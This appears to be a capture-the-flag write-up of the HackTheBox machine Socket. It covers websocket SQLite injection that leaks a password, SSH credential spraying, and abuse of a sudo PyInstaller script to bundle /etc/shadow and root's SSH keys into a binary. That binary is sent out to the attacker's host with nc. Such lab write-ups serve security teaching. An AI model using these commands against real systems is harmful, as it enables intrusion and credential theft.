




# HTB: Socket

[ctf](/tags#ctf ) [hackthebox](/tags#hackthebox ) [htb-socket](/tags#htb-
socket ) [nmap](/tags#nmap ) [ffuf](/tags#ffuf ) [qrcode](/tags#qrcode )
[python](/tags#python ) [ubuntu](/tags#ubuntu ) [flask](/tags#flask )
[websocket](/tags#websocket ) [python-websockets](/tags#python-websockets )
[pyinstaller](/tags#pyinstaller ) [burp](/tags#burp ) [burp-proxy](/tags#burp-
proxy ) [burp-repeater](/tags#burp-repeater ) [burp-repeater-
websocket](/tags#burp-repeater-websocket ) [websocket-sqli](/tags#websocket-
sqli ) [username-anarchy](/tags#username-anarchy )
[crackmapexec](/tags#crackmapexec ) [pyinstaller-spec](/tags#pyinstaller-spec
) [pyinstxtractor](/tags#pyinstxtractor ) [pycdc](/tags#pycdc ) [htb-
forgot](/tags#htb-forgot ) [htb-absolute](/tags#htb-absolute )  
  
Jul 15, 2023

HTB: Socket

Socket has a web application for a company that makes a QRcode encoding /
decoding software. I’ll download both the Linux and Windows application, and
through dynamic analysis, see web socket connections to the box. I’ll find a
SQLite injection over the websocket and leak a password and username that can
be used for SSH. That user is able to run the PyInstaller build process as
root, and I’ll abuse that to read files, and get a shell. In Beyond Root, I’ll
look at pulling the Python source code from the application, even though I
didn’t need that to solve the box.

## Box Info

Name | [Socket](https://hacktheboxltd.sjv.io/g1jVD9?u=https%3A%2F%2Fapp.hackthebox.com%2Fmachines%2Fsocket)   
[Play on
HackTheBox](https://hacktheboxltd.sjv.io/g1jVD9?u=https%3A%2F%2Fapp.hackthebox.com%2Fmachines%2Fsocket)  
---|---  
Release Date | [25 Mar 2023](https://twitter.com/hackthebox_eu/status/1593272791960272897)  
Retire Date | 15 Jul 2023  
OS | Linux   
Base Points | Medium [30]  
Rated Difficulty |   
Radar Graph |   
 | 00:50:03[ snowscan](https://app.hackthebox.com/users/9267)  
  
 | 01:17:00[ jkr](https://app.hackthebox.com/users/77141)  
  
Creator | [ kavigihan](https://app.hackthebox.com/users/389926)  
  
  
## Recon

### nmap

`nmap` finds two open TCP ports, SSH (22) and HTTP (80):

    
    
    oxdf@hacky$ nmap -p- --min-rate 10000 10.10.11.206                     
    Starting Nmap 7.80 ( https://nmap.org ) at 2023-03-27 13:52 EDT
    Nmap scan report for 10.10.11.206                   
    Host is up (0.090s latency).
    Not shown: 65532 closed ports                       
    PORT     STATE SERVICE                              
    22/tcp   open  ssh                                  
    80/tcp   open  http                                 
    5789/tcp open  unknown                              
    
    Nmap done: 1 IP address (1 host up) scanned in 6.96 seconds
    oxdf@hacky$ nmap -p 22,80,5789 -sCV 10.10.11.206
    Starting Nmap 7.80 ( https://nmap.org ) at 2023-03-27 13:52 EDT
    Nmap scan report for 10.10.11.206
    Host is up (0.086s latency).
    
    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
    80/tcp   open  http    Apache httpd 2.4.52
    |_http-server-header: Apache/2.4.52 (Ubuntu)
    |_http-title: Did not follow redirect to http://qreader.htb/
    5789/tcp open  unknown
    | fingerprint-strings:
    |   GenericLines, GetRequest, HTTPOptions, RTSPRequest:
    |     HTTP/1.1 400 Bad Request
    |     Date: Mon, 27 Mar 2023 17:53:02 GMT
    |     Server: Python/3.10 websockets/10.4
    |     Content-Length: 77
    |     Content-Type: text/plain
    |     Connection: close
    |     Failed to open a WebSocket connection: did not receive a valid HTTP request.
    |   Help, SSLSessionReq:
    |     HTTP/1.1 400 Bad Request
    |     Date: Mon, 27 Mar 2023 17:53:18 GMT
    |     Server: Python/3.10 websockets/10.4
    |     Content-Length: 77
    |     Content-Type: text/plain
    |     Connection: close
    |_    Failed to open a WebSocket connection: did not receive a valid HTTP request.                       
    1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
    SF-Port5789-TCP:V=7.80%I=7%D=3/27%Time=6421D7FE%P=x86_64-pc-linux-gnu%r(Ge
    SF:nericLines,F4,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nDate:\x20Mon,\x202
    SF:7\x20Mar\x202023\x2017:53:02\x20GMT\r\nServer:\x20Python/3\.10\x20webso
    SF:ckets/10\.4\r\nContent-Length:\x2077\r\nContent-Type:\x20text/plain\r\n
    SF:Connection:\x20close\r\n\r\nFailed\x20to\x20open\x20a\x20WebSocket\x20c
    ...[snip]...SF:20open\x20a\x20WebSocket\x20connection:\x20did\x20not\x20receive\x20a\x
    SF:20valid\x20HTTP\x20request\.\n");
    Service Info: Host: qreader.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 93.46 seconds
    

Based on the [OpenSSH](https://packages.ubuntu.com/search?keywords=openssh-
server) and [Apache](https://packages.ubuntu.com/search?keywords=apache2)
versions, the host is likely running Ubuntu 22.04 jammy.

Port 80 is showing a redirect to `http://qreader.htb/`.

The server on 5789 is a Python websockets server.

### Subdomain Fuzz

Given the use of domain names, I’ll do a fuzz with `ffuf` giving it `-ac` to
filter automatically and `-mc all` to not hide status codes:

    
    
    oxdf@hacky$ ffuf -u http://10.10.11.206:5789 -H "Host: FUZZ.qreader.htb" -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -ac -mc all
    
            /'___\  /'___\           /'___\       
           /\ \__/ /\ \__/  __  __  /\ \__/       
           \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
            \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
             \ \_\   \ \_\  \ \____/  \ \_\       
              \/_/    \/_/   \/___/    \/_/       
    
           v2.0.0
    ________________________________________________
    
     :: Method           : GET
     :: URL              : http://10.10.11.206:5789
     :: Wordlist         : FUZZ: /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
     :: Header           : Host: FUZZ.qreader.htb
     :: Follow redirects : false
     :: Calibration      : true
     :: Timeout          : 10
     :: Threads          : 40
     :: Matcher          : Response status: all
    ________________________________________________
    
    :: Progress: [4989/4989] :: Job [1/1] :: 228 req/sec :: Duration: [0:00:23] :: Errors: 0 ::
    

It doesn’t find anything. I can run the same command on 5789, and it finds
nothing there as well.

I’ll add this to my `/etc/hosts`:

    
    
    10.10.11.206 qreader.htb
    

### Website - TCP 80

#### Site

The site hosts a QR-code reading / generation service:

 "Click to expand for full
content")

I can give it text and it will generate a QR Code:

I can pass the QR code back to the site and get the text:

Passing the same QR to a site like [zxing.org](https://zxing.org/w/decode)
shows the same results, so it’s a standard QR code:

There’s also links to download the “Windows” and “Linux” version of the app.
That downloads `QReader_win_v0.0.2.zip` and `QReader_lin_v0.0.2.zip`.

At the very bottom of the page there’s a “Email Us” button that links to
`contact@qreader.htb`, and a “Submit a report” link that goes to `/report`:

`/report` shows a form, and on submitting it, there’s a message added at the
top:

I’ll try some cross site scripting (XSS) payloads, but nothing connects back.

#### Tech Stack

While the headers for the site accessed by IP show Apache, once it redirects
to `qreader.htb`, it’s Python:

    
    
    HTTP/1.1 200 OK
    Date: Mon, 27 Mar 2023 18:58:31 GMT
    Server: Werkzeug/2.1.2 Python/3.10.6
    Content-Type: text/html; charset=utf-8
    Vary: Accept-Encoding
    Content-Length: 6992
    Connection: close
    

That fits with a “Made with Flask” message in the footer of the page. The 404
page is also the [default flask 404](/2023/03/04/htb-forgot.html#tech-stack):

#### Directory Brute Force

I’ll run `feroxbuster` against the site:

    
    
    oxdf@hacky$ feroxbuster -u http://qreader.htb
    
     ___  ___  __   __     __      __         __   ___
    |__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
    |    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
    by Ben "epi" Risher 🤓                 ver: 2.9.2
    ───────────────────────────┬──────────────────────
     🎯  Target Url            │ http://qreader.htb
     🚀  Threads               │ 50
     📖  Wordlist              │ /opt/SecLists/Discovery/Web-Content/raft-small-words.txt
     👌  Status Codes          │ All Status Codes!
     💥  Timeout (secs)        │ 7
     🦡  User-Agent            │ feroxbuster/2.9.2
     💉  Config File           │ /etc/feroxbuster/ferox-config.toml
     🔎  Extract Links         │ true
     🏁  HTTP methods          │ [GET]
     🔃  Recursion Depth       │ 4
    ───────────────────────────┴──────────────────────
     🏁  Press [ENTER] to use the Scan Management Menu™
    ──────────────────────────────────────────────────
    404      GET        5l       31w      206c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
    200      GET      197l      302w     4161c http://qreader.htb/report
    200      GET      134l      233w     2155c http://qreader.htb/static/css/footer.css
    404      GET        1l        3w       61c http://qreader.htb/api
    405      GET        5l       20w      153c http://qreader.htb/reader
    200      GET        7l     1966w   155758c http://qreader.htb/static/css/bootstrap.min.css
    200      GET      228l      638w     6992c http://qreader.htb/
    405      GET        5l       20w      153c http://qreader.htb/embed
    200      GET        0l        0w 89608499c http://qreader.htb/download/windows
    200      GET       44l     5870w   258895c http://qreader.htb/static/css/mdb.min.css
    403      GET        9l       28w      276c http://qreader.htb/server-status
    200      GET        0l        0w 107679534c http://qreader.htb/download/linux
    404      GET        1l        3w       61c http://qreader.htb/api-doc
    404      GET        1l        3w       61c http://qreader.htb/apis
    404      GET        1l        3w       61c http://qreader.htb/api_test
    404      GET        1l        3w       61c http://qreader.htb/api3
    404      GET        1l        3w       61c http://qreader.htb/api2
    404      GET        1l        3w       61c http://qreader.htb/api4
    404      GET        1l        3w       61c http://qreader.htb/apichain
    [####################] - 2m     43027/43027   0s      found:18      errors:13     
    [####################] - 2m     43008/43008   263/s   http://qreader.htb/ 
    

`/reader` and `/embed` are the endpoints for going QR <–> text. `/report` is
the form above. `/api[*]` seems to be a wildcard route that shows the same 404
for anything starting with `/api` that `feroxbuster` tries:

### Websockets - TCP 5789

TCP 5789 isn’t a pre-defined port, but visiting it in a browser gives a pretty
solid clue as to what it’s for:

[_Click for full
size image_](../img/image-20230327161941431.png)

The websocket was also mentioned in the `nmap` scan.

There are several things I could do to enumerate these websockets, but I’d
need a client and some idea about the messages that are sent over the socket.
I’ll go look at the binaries first, as they will likely give information about
how to interact with the websocket.

### Binaries

#### Overview

The two zip archives each have an `app` directory with a binary and a
`test.png` file:

    
    
    oxdf@hacky$ unzip -l QReader_lin_v0.0.2.zip 
    Archive:  QReader_lin_v0.0.2.zip
      Length      Date    Time    Name
    ---------  ---------- -----   ----
            0  2022-11-23 09:21   app/
    108587072  2022-11-23 09:18   app/qreader
          541  2022-11-23 09:21   app/test.png
    ---------                     -------
    108587613                     3 files
    oxdf@hacky$ unzip -l QReader_win_v0.0.2.zip 
    Archive:  QReader_win_v0.0.2.zip
      Length      Date    Time    Name
    ---------  ---------- -----   ----
            0  2022-11-23 09:03   app/
     90381965  2022-11-23 09:03   app/qreader.exe
          541  2022-11-23 09:03   app/test.png
    ---------                     -------
     90382506                     3 files
    

The two images are identical, and present a QR code:

The QR decodes to “kavigihan” (the box author’s handle).

Both binaries have a lot of strings that mention “Python” or “Py” and each has
a line mentioning PyInstaller:

    
    
    oxdf@hacky$ strings qreader
    ...[snip]...
    Cannot open PyInstaller archive from executable (%s) or external archive (%s)
    ...[snip]...
    

PyInstaller files can be reversed to pull typically the full source in a text
Python format, but that’s not necessary here (and a bit of a rabbit hole).
I’ll show it in Beyond Root.

#### Dynamic Analysis

Running the ELF opens a small GUI application:

I can put text in the field on the right, and it will generate a QR code when
I click “Embed”:

The file menu has “Import” (load an image that can then be “Read”), “Save”
(save current QR to a file), and “Quit”.

“About” has “Version” and “Update”. When I select “Version” or “Update” it
prints an error at the bottom:

Given the implication of network activity, I’ll run it again with Wireshark
open. There are DNS queries for `ws.qreader.htb`:

I’ll add that to my `/etc/hosts` file pointing at Socket, and the “Version”
command works:

It seems a bit odd that the client is getting it’s own version from the
server, but that’s what’s happening.

#### Track Requests

I want to proxy the requests, so I’ll configure Burp to listen on 5789,
sending any traffic to Socket on 5789:

[_Click for full
size image_](../img/image-20230327182926364.png)

Now I’ll update my `hosts` file to have `ws.qreader.htb` point to 127.0.0.1,
and the requests will go through Burp.

When I do “Version”, it sends:

    
    
    GET /version HTTP/1.1
    Host: ws.qreader.htb:5789
    Upgrade: websocket
    Connection: Upgrade
    Sec-WebSocket-Key: FuRf6ypvGgOT89LhDlkeMA==
    Sec-WebSocket-Version: 13
    User-Agent: Python/3.10 websockets/10.2
    

And in Burp I can see the websocket history:

This is a very strange implementation of web sockets. Typically there’s a
single websocket endpoint, and then difference messages are sent to it. This
box is using multiple endpoints.

## Shell as tkeller

### SQLI

#### Identify

It seems the client is sending the version to the server, and the server is
responding with details.

    
    
    {"message": {"id": 2, "version": "0.0.2", "released_date": "26/09/2022", "downloads": 720}}
    

Perhaps it’s reading from a database.

I’ll send one of the “To server” websocket messages to Burp Repeater and mess
with it. If I send an invalid version, it says so:

If I add a `'` it still returns the same message. However, if I add `"`, it
doesn’t return anything:

This could be the server crashing with an SQL error. I’ll try with a comment
to see if it works again, and it does:

That implies that the query looks like:

    
    
    select * from version where ver = "[input]";
    

So my request makes that:

    
    
    select * from version where ver = "0.0.2"-- -";
    

And it works again.

#### Union Injection

To try to read data, I’ll see if I can use a UNION injection. I’ll need to
know the number of columns returned. Given the response, it seems likely that
it will be 4 or more, and 4 works:

It is important to remove the 0.0.2 from the front, or else it will get two
rows back - one for the 0.0.2 and one for my injection, and then the app just
uses the first.

#### Enumerate Database

If I try to replace one of the numbers with `version()`, nothing comes back.
That means it’s likely not mySQL. I’ll check `sqlite_version()`, and it works:

So it’s sqlite. PayloadsAllTheThings has a nice [SQLite Injection
page](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md).
As the response is only showing one row at a time, I’ll use `GROUP_CONCAT`
([example](https://www.sqlitetutorial.net/sqlite-group_concat/)) to show all
the results as one row. For example, I’ll get all the table descriptions:

I’ll focus on the non `sqlite_*` tables:

    
    
    CREATE TABLE versions (
        id INTEGER PRIMARY KEY AUTOINCREMENT, 
        version TEXT, 
        released_date DATE, 
        downloads INTEGER)
    
    CREATE TABLE users (
        id INTEGER PRIMARY KEY AUTOINCREMENT, 
        username TEXT, 
        password DATE, 
        role TEXT)
    
    CREATE TABLE info (
        id INTEGER PRIMARY KEY AUTOINCREMENT, 
        key TEXT, 
        value TEXT)
        
    CREATE TABLE reports (
        id INTEGER PRIMARY KEY AUTOINCREMENT,
        reporter_name TEXT,
        subject TEXT,
        description TEXT, 
        reported_date DATE)
        
    CREATE TABLE answers (
        id INTEGER PRIMARY KEY AUTOINCREMENT, 
        answered_by TEXT,  
        answer TEXT, 
        answered_date DATE, 
        status TEXT,
        FOREIGN KEY(id) REFERENCES reports(report_id))
    

#### Users

I’ll dump the users table. I’m using `||` to concatenate the data I care about
from a row, and then `GROUP_CONCAT` to show all the rows that way. Still,
there’s only one row:

[Crackstation](https://crackstation.net/) breaks the hash easily:

Unfortunately, the username admin over SSH with this password doesn’t work.

#### Other Tables

The `info` table has the downloads and conversations stats:

`reports` gives another couple possible usernames of jason and mike (though
these are presumably from customers):

`answeres` have admin for both usernames:

But, they are both signed Thomas Keller.

### SSH

#### Usernames

With a user’s name and a password, I’ll try to come up with different
variations of usernames that could come from that first and last name.
Initially I just made a list by hand, but it’s probably easier to just use
[username-anarchy](https://github.com/urbanadventurer/username-anarchy) like I
did on [Absolute](/2023/05/27/htb-absolute.html#generate-users-list):

    
    
    oxdf@hacky$ /opt/username-anarchy/username-anarchy thomas keller | tee usernames 
    thomas
    thomaskeller
    thomas.keller
    thomaske
    thomkell
    thomask
    t.keller
    tkeller
    kthomas
    k.thomas
    kellert
    keller
    keller.t
    keller.thomas
    tk
    

#### Brute

To quickly check these, I’ll use `crackmapexec`:

    
    
    crackmapexec ssh 10.10.11.206 -u usernames -p denjanjade122566
    SSH         10.10.11.206    22     10.10.11.206     [*] SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.1
    SSH         10.10.11.206    22     10.10.11.206     [-] thomas:denjanjade122566 Authentication failed.
    SSH         10.10.11.206    22     10.10.11.206     [-] thomaskeller:denjanjade122566 Authentication failed.
    SSH         10.10.11.206    22     10.10.11.206     [-] thomas.keller:denjanjade122566 Authentication failed.
    SSH         10.10.11.206    22     10.10.11.206     [-] thomaske:denjanjade122566 Authentication failed.
    SSH         10.10.11.206    22     10.10.11.206     [-] thomkell:denjanjade122566 Authentication failed.
    SSH         10.10.11.206    22     10.10.11.206     [-] thomask:denjanjade122566 Authentication failed.
    SSH         10.10.11.206    22     10.10.11.206     [-] t.keller:denjanjade122566 Authentication failed.
    SSH         10.10.11.206    22     10.10.11.206     [+] tkeller:denjanjade122566
    

It finds a match for tkeller.

#### Shell

Now I’ll connect with SSH:

    
    
    oxdf@hacky$ sshpass -p denjanjade122566 ssh tkeller@10.10.11.206
    Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-67-generic x86_64)
    ...[snip]...
    tkeller@socket:~$ 
    

And get `user.txt`:

    
    
    tkeller@socket:~$ cat user.txt
    89005f4e************************
    

## Shell as root

### Enumeration

#### sudo

The first thing to check on Linux is `sudo -l`, and it finds something:

    
    
    tkeller@socket:~$ sudo -l
    Matching Defaults entries for tkeller on socket:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty
    
    User tkeller may run the following commands on socket:
        (ALL : ALL) NOPASSWD: /usr/local/sbin/build-installer.sh
    

tkeller can run `build-installer.sh` as root without a password.

#### build-installer

This Bash script is used to build the PyInstaller application with three
actions - “build”, “make”, and “cleanup”.

It starts by checking the command line arguments. If the number isn’t two and
the first one isn’t “cleanup”, it prints an error and exits:

    
    
    #!/bin/bash
    if [ $# -ne 2 ] && [[ $1 != 'cleanup' ]]; then
      /usr/bin/echo "No enough arguments supplied"
      exit 1;
    fi
    

Next it sets some variables based on the input and validates that the name
isn’t a link:

    
    
    action=$1
    name=$2
    ext=$(/usr/bin/echo $2 |/usr/bin/awk -F'.' '{ print $(NF) }')
    
    if [[ -L $name ]];then
      /usr/bin/echo 'Symlinks are not allowed'
      exit 1;
    fi
    

Then it has three blocks based on the `action`. “build” checks that the file
extension is “spec”, and if so, calls `pyinstaller` on that spec file:

    
    
    if [[ $action == 'build' ]]; then
      if [[ $ext == 'spec' ]] ; then
        /usr/bin/rm -r /opt/shared/build /opt/shared/dist 2>/dev/null
        /home/svc/.local/bin/pyinstaller $name
        /usr/bin/mv ./dist ./build /opt/shared
      else
        echo "Invalid file format"
        exit 1;
      fi
    

“make” calls `pyinstaller` on a Python file:

    
    
    elif [[ $action == 'make' ]]; then
      if [[ $ext == 'py' ]] ; then
        /usr/bin/rm -r /opt/shared/build /opt/shared/dist 2>/dev/null
        /root/.local/bin/pyinstaller -F --name "qreader" $name --specpath /tmp
       /usr/bin/mv ./dist ./build /opt/shared
      else
        echo "Invalid file format"
        exit 1;
      fi
    

“cleanup” removes files, and any other action prints an error:

    
    
    elif [[ $action == 'cleanup' ]]; then
      /usr/bin/rm -r ./build ./dist 2>/dev/null
      /usr/bin/rm -r /opt/shared/build /opt/shared/dist 2>/dev/null
      /usr/bin/rm /tmp/qreader* 2>/dev/null
    else
      /usr/bin/echo 'Invalid action'
      exit 1;
    fi
    

### Malicious Spec File

#### Background

According to the [PyInstaller
docs](https://pyinstaller.org/en/stable/usage.html), the standard usage for
`pyinstaller` is to pass it a python script (`.py` file). PyInstaller will
analyze the Python script and write a `.spec` file and then use that to build
the stand alone executable. There are cases where you may want to edit a
`.spec` file manually, and that file can also be passed to `pyisntaller`.

The [docs on Spec files](https://pyinstaller.org/en/stable/spec-files.html)
show an example `.spec` file:

    
    
    block_cipher = None
    a = Analysis(['minimal.py'],
             pathex=['/Developer/PItests/minimal'],
             binaries=None,
             datas=None,
             hiddenimports=[],
             hookspath=None,
             runtime_hooks=None,
             excludes=None,
             cipher=block_cipher)
    pyz = PYZ(a.pure, a.zipped_data,
             cipher=block_cipher)
    exe = EXE(pyz,... )
    coll = COLLECT(...)
    

This file allows configuration for data files and/or libraries to include, as
well as run time options for Python or bundling multiple applications
together.

#### Strategy

Looking at the docs, the thing that jumps out as exploitable here is the
`datas` parameter. This option is to specify non-binary files the be included
with the resulting executable. This could give me file read as root. I’ll play
with adding different directories to the binary to see what I can exfil.

#### Get Spec

Rather than starting with a `.spec` file from the docs, I’ll use `build-
installer.sh make` to create one. I’ll create an empty Python script, and pass
that in:

    
    
    tkeller@socket:~$ touch /tmp/0xdf.py
    tkeller@socket:~$ sudo build-installer.sh make /tmp/0xdf.py  
    415 INFO: PyInstaller: 5.6.2
    415 INFO: Python: 3.10.6
    418 INFO: Platform: Linux-5.15.0-67-generic-x86_64-with-glibc2.35
    419 INFO: wrote /tmp/qreader.spec
    ...[snip]...
    

It writes `/tmp/qreader.spec` (as well as a bunch of other stuff). That file
is:

    
    
    # -*- mode: python ; coding: utf-8 -*-
    
    
    block_cipher = None
    
    
    a = Analysis(
        ['/tmp/0xdf.py'],
        pathex=[],
        binaries=[],
        datas=[],
        hiddenimports=[],
        hookspath=[],
        hooksconfig={},
        runtime_hooks=[],
        excludes=[],
        win_no_prefer_redirects=False,
        win_private_assemblies=False,
        cipher=block_cipher,
        noarchive=False,
    )
    pyz = PYZ(a.pure, a.zipped_data, cipher=block_cipher)
    
    exe = EXE(
        pyz,
        a.scripts,
        a.binaries,
        a.zipfiles,
        a.datas,
        [],
        name='qreader',
        debug=False,
        bootloader_ignore_signals=False,
        strip=False,
        upx=True,
        upx_exclude=[],
        runtime_tmpdir=None,
        console=True,
        disable_windowed_traceback=False,
        argv_emulation=False,
        target_arch=None,
        codesign_identity=None,
        entitlements_file=None,
    )
    

#### Modify Spec

I don’t have permissions to edit this file, but I’ll copy it to another file,
and edit it to include some `datas`:

    
    
        ...[snip]...
        datas=[('/etc/shadow', '.'), ('/etc/passwd', '.'), ('/root/*', '.'), ('/root/.ssh/*', '.')],
        ...[snip]...
    

Now I’ll run that:

    
    
    tkeller@socket:~$ sudo build-installer.sh build /tmp/0xdf.spec 
    267 INFO: PyInstaller: 5.6.2
    ...[snip]...
    

It runs without issue.

#### Exfil

I’ll exfil the binary back to my host with `nc`:

    
    
    tkeller@socket:~$ cat /opt/shared/dist/qreader | nc 10.10.14.6 443
    

At my host:

    
    
    oxdf@hacky$ nc -lnvp 443 > modfile
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.206 40194
    ^C
    

This just hangs, so after a few seconds, I’ll kill it, and check the hashes of
each:

    
    
    tkeller@socket:/dev/shm$ md5sum qreader 
    acd4d1b688fa7ba05f98741d89c0ab43  qreader
    
    
    
    oxdf@hacky$ md5sum modfile 
    acd4d1b688fa7ba05f98741d89c0ab43  modfile
    

#### Extract

I’ll use `pyinstxtractor` to pull out the files:

    
    
    oxdf@hacky$ python3.10 /opt/pyinstxtractor/pyinstxtractor.py modfile 
    [+] Processing modfile
    [+] Pyinstaller version: 2.1+
    [+] Python version: 3.10
    [+] Length of package: 6466212 bytes
    [+] Found 44 files in CArchive
    [+] Beginning extraction...please standby
    [+] Possible entry point: pyiboot01_bootstrap.pyc
    [+] Possible entry point: pyi_rth_inspect.pyc
    [+] Possible entry point: pyi_rth_subprocess.pyc
    [+] Possible entry point: 0xdf.pyc
    [+] Found 97 files in PYZ archive
    [+] Successfully extracted pyinstaller archive: modfile
    
    You can now use a python decompiler on the pyc files within the extracted directory
    

There’s a bunch of interesting files in there that I had added:

I’ve got `root.txt` there.

### SSH

I can use the private key to SSH in as root:

    
    
    oxdf@hacky$ ssh -i ~/keys/socket-root root@10.10.11.206
    Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-67-generic x86_64)
    ...[snip]...
    root@socket:~#
    

## Beyond Root

### Summary

As soon as I saw it was PyInstaller, my immediate thought was to extract the
source. This ended up being more of a pain that I expected, and completely
unnecessary to solve the box (which is a good lesson on it’s own). That said,
I thought it would be valuable to show how to extract the files for this box,
as it’s different from previous times I’ve shown this.

### Extract Files

There are two steps in recovering Python code from a PyInstaller binary. First
is to get the files out of the archive, and then to convert the Python byte-
code files back to readable Python. The first step is the same as I’ve always
shown.

I’ll use [pyinstxtractor](https://github.com/extremecoders-re/pyinstxtractor)
to extract the compiled Python modules from the archive:

    
    
    oxdf@hacky$ python /opt/pyinstxtractor/pyinstxtractor.py qreader 
    [+] Processing qreader
    [+] Pyinstaller version: 2.1+
    [+] Python version: 3.10
    [+] Length of package: 108535118 bytes
    [+] Found 305 files in CArchive
    [+] Beginning extraction...please standby
    [+] Possible entry point: pyiboot01_bootstrap.pyc
    [+] Possible entry point: pyi_rth_subprocess.pyc
    [+] Possible entry point: pyi_rth_inspect.pyc
    [+] Possible entry point: pyi_rth_pkgutil.pyc
    [+] Possible entry point: pyi_rth_multiprocessing.pyc
    [+] Possible entry point: pyi_rth_pyqt5.pyc
    [+] Possible entry point: pyi_rth_setuptools.pyc
    [+] Possible entry point: pyi_rth_pkgres.pyc
    [+] Possible entry point: qreader.pyc
    [!] Warning: This script is running in a different Python version than the one used to build the executable.
    [!] Please run this script in Python 3.10 to prevent extraction errors during unmarshalling
    [!] Skipping pyz extraction
    [+] Successfully extracted pyinstaller archive: qreader
    You can now use a python decompiler on the pyc files within the extracted directory
    

It reports success, but also notes that the Python version of the binary is
3.10, and I’m running 3.11. It’s important to re-run this with the correct
Python version if you want to do decompilation later.

I use the [dead snakes](https://launchpad.net/~deadsnakes/+archive/ubuntu/ppa)
repo to have lots of Python versions on my box. You could also easily do this
with Docker containers.

I’ll re-run with 3.10 to get the full extraction:

    
    
    oxdf@hacky$ python3.10 /opt/pyinstxtractor/pyinstxtractor.py qreader 
    [+] Processing qreader
    [+] Pyinstaller version: 2.1+
    [+] Python version: 3.10
    [+] Length of package: 108535118 bytes
    [+] Found 305 files in CArchive
    [+] Beginning extraction...please standby
    [+] Possible entry point: pyiboot01_bootstrap.pyc
    [+] Possible entry point: pyi_rth_subprocess.pyc
    [+] Possible entry point: pyi_rth_inspect.pyc
    [+] Possible entry point: pyi_rth_pkgutil.pyc
    [+] Possible entry point: pyi_rth_multiprocessing.pyc
    [+] Possible entry point: pyi_rth_pyqt5.pyc
    [+] Possible entry point: pyi_rth_setuptools.pyc
    [+] Possible entry point: pyi_rth_pkgres.pyc
    [+] Possible entry point: qreader.pyc
    [+] Found 637 files in PYZ archive
    [+] Successfully extracted pyinstaller archive: qreader
    
    You can now use a python decompiler on the pyc files within the extracted directory
    

This generates files in a new directory called `qreader_extracted`.

### Decompilation

#### Uncompyle6 Fail

There’s a ton of files in `qreader_extracted`. I’ll want to focus on
`qreader.pyc`. This is compiled Python byte-code. To get it back to ASCII
Python, I would typically use `uncompyle6` (create a virtual environment using
the version of Python, `pip install` it, and run it. But it fails here:

    
    
    (venv) oxdf@hacky$ uncompyle6 qreader_extracted/qreader.pyc
    # uncompyle6 version 3.9.0
    # Python bytecode version base 3.10.0 (3439)
    # Decompiled from: Python 3.10.6 (main, Mar 10 2023, 10:55:28) [GCC 11.3.0]
    # Embedded file name: qreader.py
    
    Unsupported Python version, 3.10.0, for decompilation
    
    
    # Unsupported bytecode in file qreader_extracted/qreader.pyc            
    # Unsupported Python version, 3.10.0, for decompilation 
    

It’s not supported for this version of Python.

#### pycdc

The other tool referenced on the PyInstxtractor page is Decompyle++, which is
now [pycdc](https://github.com/zrax/pycdc). I’ll install with the instructions
in [this stackoverflow post](https://stackoverflow.com/a/71353143):

  * Clone the repo (`git clone https://github.com/zrax/pycdc`)
  * Go into the directory (`cd pycdc`)
  * `cmake .` (will need `cmake` \- `sudo apt install cmake`)
  * `make`
  * `make check`

Now I can run it, and it works:

    
    
    oxdf@hacky$ /opt/pycdc/pycdc qreader_extracted/qreader.pyc
    # Source Generated with Decompyle++
    # File: qreader.pyc (Python 3.10)
    
    import cv2
    import sys
    import qrcode
    import tempfile
    import random
    import os
    from PyQt5.QtWidgets import *
    from PyQt5 import uic, QtGui
    import asyncio
    import websockets
    import json
    VERSION = '0.0.2'
    ws_host = 'ws://ws.qreader.htb:5789'
    icon_path = './icon.png'
    
    def setup_env():
    Unsupported opcode: WITH_EXCEPT_START
        global tmp_file_name
        pass
    # WARNING: Decompyle incomplete
    
    class MyGUI(QMainWindow):
    
        def __init__(self = None):
            super(MyGUI, self).__init__()
            uic.loadUi(tmp_file_name, self)
            self.show()
            self.current_file = ''
            self.actionImport.triggered.connect(self.load_image)
            self.actionSave.triggered.connect(self.save_image)
            self.actionQuit.triggered.connect(self.quit_reader)
            self.actionVersion.triggered.connect(self.version)
            self.actionUpdate.triggered.connect(self.update)
            self.pushButton.clicked.connect(self.read_code)
            self.pushButton_2.clicked.connect(self.generate_code)
            self.initUI()
    
        def initUI(self):
            self.setWindowIcon(QtGui.QIcon(icon_path))
    
        def load_image(self):
            options = QFileDialog.Options()
            (filename, _) = QFileDialog.getOpenFileName(self, 'Open File', '', 'All Files (*)')
            if filename != '':
                self.current_file = filename
                pixmap = QtGui.QPixmap(self.current_file)
                pixmap = pixmap.scaled(300, 300)
                self.label.setScaledContents(True)
                self.label.setPixmap(pixmap)
                return None
    
        def save_image(self):
            options = QFileDialog.Options()
            (filename, _) = QFileDialog.getSaveFileName(self, 'Save File', '', 'PNG (*.png)', options, **('options',))
            if filename != '':
                img = self.label.pixmap()
                img.save(filename, 'PNG')
                return None
    
        def read_code(self):
            if self.current_file != '':
                img = cv2.imread(self.current_file)
                detector = cv2.QRCodeDetector()
                (data, bbox, straight_qrcode) = detector.detectAndDecode(img)
                self.textEdit.setText(data)
                return None
            None.statusBar().showMessage('[ERROR] No image is imported!')
    
